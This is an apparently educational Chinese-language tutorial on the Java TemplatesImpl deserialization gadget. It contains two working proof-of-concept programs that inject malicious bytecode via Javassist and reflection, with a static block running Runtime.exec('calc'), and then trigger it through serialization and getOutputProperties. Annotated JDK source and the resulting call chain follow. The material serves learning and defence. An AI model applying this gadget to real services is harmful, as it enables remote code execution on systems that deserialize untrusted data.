


## TemplatesImpl

想了很久，觉得还是要专门写一篇文章来介绍TemplatesImpl，虽然在CC2攻击链中已经用到了TemplatesImpl，但是并没有对TemplatesImpl专门写过一篇分析文章，我觉得很有必要写一篇更全面的内容来让更多小白更轻松的学习这些内容，而不是碎片化的一些内容。

先给一段代码，我的学习方法就是，先跑脚本看效果，然后再去跟踪debug，跟踪方法具体的执行逻辑，然后分析为什么会触发逻辑，大概就是这么个逻辑。

### POC测试代码 - 1

这是一段因为TemplatesImpl尝试反序列化加载一个恶意类，导致Runtime代码被执行的代码，如下(我使用JDK8u131运行该代码)：

````java
package templates_example;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class TemplatesDemo {
    static String serialFileName = "templates-example.ser";

    public static void main(String[] args) throws Exception {
        ClassPool classPool = ClassPool.getDefault();
        CtClass evil = classPool.makeClass("Pwner");

        CtClass superC = classPool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);
        String className = "Erosion-" + System.nanoTime();
        evil.setName(className);
        evil.makeClassInitializer().insertBefore("Runtime.getRuntime().exec(\"calc\");");

        byte[] bytecode = evil.toBytecode();
        byte[][] evilByteCodes = {bytecode};

        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EvilObj");
        Field bytecodesFiled = templatesClass.getDeclaredField("_bytecodes");
        bytecodesFiled.setAccessible(true);
        bytecodesFiled.set(templates, evilByteCodes);
        Field tfactoryFiled = templatesClass.getDeclaredField("_tfactory");
        tfactoryFiled.setAccessible(true);
        tfactoryFiled.set(templates, new TransformerFactoryImpl());
        serial(templates);
        verify();
    }

    public static void serial(Object obj)throws Exception{
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        TemplatesImpl templates = (TemplatesImpl) ois.readObject();
        // // 最终代码其实会在调用getOutputProperties方法后被执行，fastJson的漏洞触发点其实也是这个，fastjson会调用目标Class中的get方法，最终导致代码执行
        templates.getOutputProperties();
    }
}

````

运行一下，效果是这样的，弹个计算器



你会发现网上很多人还有这么写的：

### POC测试代码 - 2

JavaClassByteUtil的代码可以看这里：[JavaClassByteUtil](../Java类转字节码工具/JavaClassByteUtil.java)

JavaClassByteUtil的代码说明可以看这里：[README.md](../Java类转字节码工具/main.md)

```java
package templates_example;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.*;
import java.lang.reflect.Field;

public class TemplatesDemo2 {
    static String serialFileName = "templates-example2.ser";
    public static void main(String[] args) throws Exception {
        byte[] evilByte = JavaClassByteUtil.compile2Byte("C:\\Users\\15137\\Desktop\\Workspace\\vuln-learn\\src\\test\\java\\templates_example\\EvilClass.java");
        byte[][] evilByteCodes = new byte[][]{evilByte};

        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EvilObj");
        Field bytecodesFiled = templatesClass.getDeclaredField("_bytecodes");
        bytecodesFiled.setAccessible(true);
        bytecodesFiled.set(templates, evilByteCodes);
        Field tfactoryFiled = templatesClass.getDeclaredField("_tfactory");
        tfactoryFiled.setAccessible(true);
        tfactoryFiled.set(templates, new TransformerFactoryImpl());
        serial(templates);
        verify();
    }
	// 这个和上边都是一样的
    public static void serial(Object obj)throws Exception{
    	......
    }

    public static void verify() throws Exception {
        ......
    }
}
```

其中EvilClass是这么写的：

```java
package templates_example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilClass extends AbstractTranslet {

    static {
        try {
            Runtime.getRuntime().exec("calc");
        }catch (Exception ignore){ }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

也是可以弹计算器的



### 介绍

`TemplatesImpl` 是 Java 中 `javax.xml.transform` 包中的一个类，它通常与 XSLT（可扩展样式表语言转换）相关，用于存储 XSLT 样式表模板并提供转换功能。`TemplatesImpl` 继承自 `Templates` 类，通常用于创建 XSLT 转换器和处理 XML 数据。

### 基本功能

`TemplatesImpl` 主要用于存储预编译的 XSLT 模板，它实现了 `Templates` 接口。XSLT 是一种用于转换 XML 文档的语言，`TemplatesImpl` 对象本质上包含了 XSLT 编译后的结果，这些结果用于将 XML 数据转换成其他格式（如 HTML）。

OK，然后我们深入了解一下XSLT和Templates是什么玩意儿

### XSLT

[XSL](https://www.runoob.com/xsl/xsl-languages.html) 指扩展样式表语言（EXtensible Stylesheet Language）, 它是一个 XML 文档的样式表语言，类似CSS与HTML的关系。

[XSLT](https://www.runoob.com/xsl/xsl-intro.html)（Extensible Stylesheet Language Transformations）是XSL转换语言，它是XSL的一部分，用于转换 XML 文档，可将一种 XML 文档转换为另外一种 XML 文档，如XHTML。

总结来说：

* **XSL** 是一个描述如何处理 XML 文档的框架，包含了 **XSLT**、**XPath** 和 **XSL-FO** 三个部分。
* **XSLT** 是 **XML** 到其他格式（如 **HTML**）的转换器，通常用于将 XML 数据根据样式表转换成需要展示的格式。

通过这个[示例](https://www.runoob.com/xsl/xsl-transformation.html)可以得知，其实就是把xml加上了样式，其实我们不用真的去本地去搞一个这样的xml、xsl，只需要了解对应的概念即可。

这是runoob给的示例：https://www.runoob.com/try/xml/cdcatalog_with_xsl.xml

这是一个xml文件，但是看起来他就像是一个html一样，还包含了对应的样式。


### Templates接口

在 XSLT 转换过程中，通常需要使用 **XSLT 样式表** 来将一个 XML 文档转换为目标格式（如 HTML、XML 或文本）。Java 提供了 `javax.xml.transform` 包来支持 XSLT 处理。`Templates` 接口是这个过程中的一个关键部分，它允许你将 XSLT 样式表编译成模板，并在后续转换中复用这些模板，而不是每次转换时都重新编译样式表。

`Templates` 接口的作用是提供对已编译 XSLT 样式表的访问，它是通过 `TransformerFactory` 创建的。具体来说，`Templates` 存储了通过解析 XSLT 样式表文件（通常是 `.xsl` 文件）所生成的 **模板信息**。

`javax.xml.transform.Templates`接口的实现类，它只定义了两个方法，官方代码如下，其中对于该类的英文注释我已转换成中文：

```java
/**
 * 实现此接口的对象是已处理的转换指令的运行时表示。
 * ---------------------------------------------------------------------------------------------
 * <p>对于给定实例，模板必须对同时运行的多个线程具有线程安全性，并且可能在给定会话中多次使用。</p>
 */
public interface Templates {
    /**
     * 为这个 Templates 对象创建一个新的转换上下文。
     * ---------------------------------------------------------------------------------------------
     * Returns: 返回一个 Transformer 的有效非空实例。
     * ---------------------------------------------------------------------------------------------
     * Throws: 如果无法创建 Transformer，抛出TransformerConfigurationException。
     */
    Transformer newTransformer() throws TransformerConfigurationException;

    /**
     * ---------------------------------------------------------------------------------------------
     * 获取有效 xsl:output 元素相对应的属性。
     * 返回的对象将是内部值的克隆。因此，它可以在不改变 Templates 对象的情况下进行变形
     * 然后传递给 {@link javax.xml.transform.Transformer#setOutputProperties}。
     * ---------------------------------------------------------------------------------------------
     * <p>返回的属性应包含样式表设置的属性，
     * 并且这些属性是“默认”的，由
     * <a href="http://www.w3.org/TR/xslt#output">XSL 转换 (XSLT) W3C 建议书第 16 节</a> 指定的默认属性。
     * 样式表专门设置的属性应位于基本
     * 属性列表中，而未专门设置的 XSLT 默认属性应位于“默认”属性列表中。因此，
     * getOutputProperties().getProperty(String key) 将获取样式表设置的任何
     * 属性，<em>或</em>默认
     * 属性，而
     * getOutputProperties().get(String key) 将仅检索样式表中明确设置的属性。</p>
     * ---------------------------------------------------------------------------------------------
     * <p>对于 XSLT，
     * <a href="http://www.w3.org/TR/xslt#attribute-value-templates">属性
     * 值模板</a> 属性值将以未扩展的形式返回（因为此时没有上下文）。
     * 属性值模板内的命名空间前缀将不扩展，
     * 因此它们仍然是有效的 XPath 值。</p>
     * 
     * @return 属性对象，永不为空。
     */
    Properties getOutputProperties();
}
```

总结一下：

* newTransformer()：为一个(当前)Transformer创建实例
* getOutputProperties()：获取有效 xsl:output 元素相对应的属性。

`TemplatesImpl` 在 `com.sun.org.apache.xalan.internal.xsltc` 包下，按照包名了解这好像是一个apache的一个叫做xalan的项目，实际就是这样的。xalan 是 Apache 软件基金会下的一个项目，主要用于处理 XSLT（可扩展样式表语言转换，XML 的一种样式表语言）。它(xalan)是一个 XSLT 处理器，可以将 XML 数据转换为其他格式（例如 HTML 或 XML）。

XSLTC指xslt compiler或xslt compiling，可以把XSLT文件编译成一个或者多个Java的class文件，通过这种方式可以加速xsl的转换速度。**这些class或者class的集合被称为Translet，他们被转换时自动会继承AbstractTranslet。**

### 总结

TemplatesImpl主要是通过获取Translet的Class或字节码来创建 XSLTC 模板对象。根据上面的学习这里不难理解，XSLTC生成的Translets，需要转为模板对象，可以用TemplatesImpl定义和处理。

TemplatesImpl定义如下：

```java
public final class TemplatesImpl implements Templates, Serializable {
    ......
}
```

## TransletClassLoader

在TemplatesImpl中包含一段重要代码，这也是漏洞利用的关键：

如果你不明白类是如何加载进来的，你需要看一下这一篇博客: [ClassLoader加载过程](../../A%20-%20JAVA基础/详解%20JAVAClassLoader/main.md),你看完之后会明白为什么这里的TransletClassLoader可以把类加载进来。

```java
static final class TransletClassLoader extends ClassLoader {
        private final Map<String,Class> _loadedExternalExtensionFunctions;

         TransletClassLoader(ClassLoader parent) {
             super(parent);
            _loadedExternalExtensionFunctions = null;
        }

        TransletClassLoader(ClassLoader parent,Map<String, Class> mapEF) {
            super(parent);
            _loadedExternalExtensionFunctions = mapEF;
        }
        // 查找是否已经有该 Class 对象，没有的话就从父类进行加载
        public Class<?> loadClass(String name) throws ClassNotFoundException {
            Class<?> ret = null;
            if (_loadedExternalExtensionFunctions != null) {
                ret = _loadedExternalExtensionFunctions.get(name);
            }
            if (ret == null) {
                ret = super.loadClass(name);
            }
            return ret;
         }
        // 读取字节数组中的值，把字节数组中的内容转换为Class对象，并且加载注册到当前ClassLoader中
        Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
    }
```

OK，让我们来总结一下对应的内容：

### loadClass

loadClass 是 ClassLoader 类中的一个方法，用于通过类名（全限定名）加载类。它通常通过以下几个步骤来加载类：

* 检查类是否已经加载：loadClass 首先会查看该类是否已经被加载。如果类已经被加载（即存在于当前类加载器的缓存中），它会直接返回该类的 Class 对象。

* 加载类：如果类未被加载，loadClass 会委托给 findClass 方法来加载类。findClass 是一个抽象方法，通常由子类实现。默认情况下，loadClass 会先检查父类加载器（如果有）是否能够加载类。如果父加载器无法加载，它将尝试加载该类。

* 类加载的过程：loadClass 本身并不会直接执行类的初始化，它只是获取到该类的 Class 对象。如果需要执行静态初始化代码，类会在第一次被使用时才会被初始化。

* findClass 是 ClassLoader 类的一个抽象方法，允许子类通过字节码加载类并将其转换为 Class 对象。


### defineClass

defineClass 是 ClassLoader 类中的一个方法，负责将类的字节码（通常是一个字节数组）转换为 Class 对象，并注册到 JVM 中。它是类加载的核心方法之一。

* 输入字节数组：defineClass 会接收一个字节数组（通常是从磁盘文件或者网络加载的类文件的字节码）并将其转换成 Class 对象。

* 注册类：这个方法将字节数据交给 JVM 进行处理（通过调用 JVM 的原生方法），JVM 将字节码转换为一个 Class 对象，并把它注册到当前的类加载器中。

* 定义类的过程：defineClass 是直接通过字节码定义并创建类，而不是通过类名查找现有的类。它会将字节数组转化为 Class 对象并返回。


### TransletClassLoader

在 TemplatesImpl 中，TransletClassLoader 继承了 ClassLoader，并重载了 loadClass 和 defineClass 方法。

* 重载 loadClass：loadClass 方法通常用于根据类名加载类。在 TransletClassLoader 中，loadClass 先尝试从已加载的外部扩展函数缓存（_loadedExternalExtensionFunctions）中查找类。如果找不到，则委托给父类加载器来加载类。

* 重载 defineClass：defineClass 方法将字节数组转换为类的 Class 对象，并将其注册到当前的类加载器中。这允许通过字节数组动态加载 Translet 类（即编译后的 XSLT 类）。

## TemplatesImpl综合代码分析

```java
public final class TemplatesImpl implements Templates, Serializable {
    static final long serialVersionUID = 673094361519270707L;
    public final static String DESERIALIZE_TRANSLET = "jdk.xml.enableTemplatesImplDeserialization";
	// 重点关注这个常量在defineTransletClasses方法中的使用
    private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";

    // START===============关注这几个字段
    private String _name = null;
    private byte[][] _bytecodes = null;
    private Class[] _class = null;
    private int _transletIndex = -1;
    private Properties _outputProperties;
    private transient TransformerFactoryImpl _tfactory = null;
	// END==============================
    
    // 这里又一个静态内部类，是一个ClassLoader
    static final class TransletClassLoader extends ClassLoader {

        // 重点关注这个方法就行
        Class defineClass(final byte[] b) {
            // 这里的defineClass最终是调用了ClassLoader中的defineClass方法，后边讲一下这个方法
            return defineClass(null, b, 0, b.length);
        }
    }
    // 重写了readObject方法
    private void readObject(ObjectInputStream is)
      throws IOException, ClassNotFoundException
    {
        SecurityManager security = System.getSecurityManager();
        if (security != null){
            String temp = SecuritySupport.getSystemProperty(DESERIALIZE_TRANSLET);
            if (temp == null || !(temp.length()==0 || temp.equalsIgnoreCase("true"))) {
                ErrorMsg err = new ErrorMsg(ErrorMsg.DESERIALIZE_TRANSLET_ERR);
                throw new UnsupportedOperationException(err.toString());
            }
        }
        // 反序列化时会把这几个字段都加载进来
        ObjectInputStream.GetField gf = is.readFields();
        _name = (String)gf.get("_name", null);
        _bytecodes = (byte[][])gf.get("_bytecodes", null);
        _class = (Class[])gf.get("_class", null);
        _transletIndex = gf.get("_transletIndex", -1);

        _outputProperties = (Properties)gf.get("_outputProperties", null);
        _indentNumber = gf.get("_indentNumber", 0);

        if (is.readBoolean()) {
            _uriResolver = (URIResolver) is.readObject();
        }
        _tfactory = new TransformerFactoryImpl();
    }
    
	// getOutputProperties方法是_outputProperties字段的getter方法
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
    // getOutputProperties调用之后也会触发这个方法
    public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;
		// 触发getTransletInstance方法
        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);

        if (_uriResolver != null) {
            transformer.setURIResolver(_uriResolver);
        }

        if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
            transformer.setSecureProcessing(true);
        }
        return transformer;
    }
    // 触发这个方法
    private Translet getTransletInstance()
        throws TransformerConfigurationException {
        if (_name == null) return null;
		// 重点关注defineTransletClasses这个方法
        if (_class == null) defineTransletClasses(s);
		
        AbstractTranslet translet = (AbstractTranslet)
                _class[_transletIndex].getConstructor().newInstance();
        translet.postInitialization();
        translet.setTemplates(this);
        translet.setOverrideDefaultParser(_overrideDefaultParser);
        translet.setAllowedProtocols(_accessExternalStylesheet);
        if (_auxClasses != null) {
            translet.setAuxiliaryClasses(_auxClasses);
        }
        return translet;
    }
}

private void defineTransletClasses()
        throws TransformerConfigurationException {
	......
    for (int i = 0; i < classCount; i++) {
        // 这个地方调用了defineClass方法来构造字节码，将其转换为Class对象
        _class[i] = loader.defineClass(_bytecodes[i]);
        final Class superClass = _class[i].getSuperclass();
        // 这个地方很有意思，如果字节码文件的父类为com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet，那么就把_transletIndex赋值为当前的字节码文件的索引
        if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
            _transletIndex = i;
        }
        else {
            _auxClasses.put(_class[i].getName(), _class[i]);
        }
    }
	// 如果_bytecodes中没有任何一个类的父类是AbstractTranslet，那么直接抛异常，我们要做的是不让他抛出异常
    if (_transletIndex < 0) {
        ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
    ......
}
```

所以最终，我们可以写出这样的调用链:

* readObject()
  * getOutputProperties()
    * newTransformer()
      * getTransletInstance()
        * defineTransletClasses()		-- 类在这里被执行defineClass注册到ClassLoader中
          * AbstractTranslet.getConstructor().newInstance()		-- 类在这里被初始化
            * static { Runtime.getRuntime.exec("calc") }		   -- 初始化时静态代码块被执行

我觉得Templates学到这里就差不多了，在刚开始学习的过程中其实不太需要关心Templates中的业务逻辑，而是关注具体的点就行，比如 `TransletClassLoader` 以及具体的readObject()方法触发创建_class[]实例的内容即可。
